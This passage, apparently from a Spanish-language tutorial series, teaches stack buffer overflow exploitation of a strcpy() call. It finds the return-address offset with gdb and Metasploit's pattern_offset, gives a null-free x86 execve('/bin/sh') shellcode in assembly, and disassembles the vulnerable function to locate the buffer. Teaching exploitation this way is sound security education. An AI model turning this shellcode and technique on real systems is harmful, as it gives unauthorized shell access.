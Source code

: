 Program received signal SIGSEGV, Segmentation fault.  
0x37654136 in ?? ()  
(gdb) quit  
A debugging session is active.

Inferior 1 \[process 7579\] will be killed.

Quit anyway? (y or n) y

$ echo -e «x36x41x65x37»  
6Ae7

$ /opt/metasploit/tools/exploit/pattern\_offset.rb -q 6Ae7  
\[\*\] Exact match at offset 140

Ahora lo que haremos es introducir código máquina que realice las acciones que deseamos, por ejemplo, ejecutar `/bin/sh` para obtener una shell. Este código recibe el nombre de _shellcode_, precisamente por ser un código que por lo general obtiene una shell. En internet se encuentran numerosos shellcodes que se pueden emplear (eso sí, siempre hay que verificar que lo que hace es lo que dice hacer, antes de usarlo), sin embargo en el próximo episodio veremos cómo construir un buen shellcode para cada ocasión, no quiero que nadie se pierda la belleza de la programación en asm.

En fin, por ahora nos vale este shellcode

xor eax, eax  
push eax  
push 0x68732f2f  
push 0x6e69622f  
mov ebx, esp  
push eax  
push ebx  
mov ecx, esp  
mov al, 0xb  
int 0x80

Podemos ensamblarlo con nasm (nasm sc.asm -o sc.bin, es necesario añadir al comienzo una línea «BITS 32» para indicar que lo ensamble como código de 32 bits).  
Podemos obtener del ensamblado los opcodes (un opcode es el valor numérico (generalmente en hex) correspondiente a una instrucción en ensamblador, es decir, lenguaje máquina) mediante xxd sc.bin.  
Bien, el shellcode no debe tener ningún 0x00 debido a que strcpy() termina de copiar al encontrar dicho valor, y de hecho este shellcode está diseñado para evitarlos.  
El shellcode lo situaremos al comienzo de buf, por lo que ahora necesitamos obtener la dirección de buf, evidentemente mediante gdb:

(gdb) disas imprimir 
Dump of assembler code for function imprimir:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x88,%esp
   0x080484cb <+9>:     sub    $0x8,%esp
   0x080484ce <+12>:    pushl  0x8(%ebp)
   0x080484d1 <+15>:    lea    -0x88(%ebp),%eax
   0x080484d7 <+21>:    push   %eax
   0x080484d8 <+22>:    call   0x8048370 <strcpy@plt>
   0x080484dd <+27>:    add    $0x10,%esp
   0x080484e0 <+30>:    sub    $0xc,%esp
   0x080484e3 <+33>:    lea    -0x88(%ebp),%eax
   0x080484e9 <+39>:    push   %eax
   0x080484ea <+40>:    call   0x8048380 <puts@plt>
   0x080484ef <+45>:    add    $0x10,%esp
   0x080484f2 <+48>:    nop
   0x080484f3 <+49>:    leave  
   0x080484f4 <+50>:    ret    
End of assembler dump.

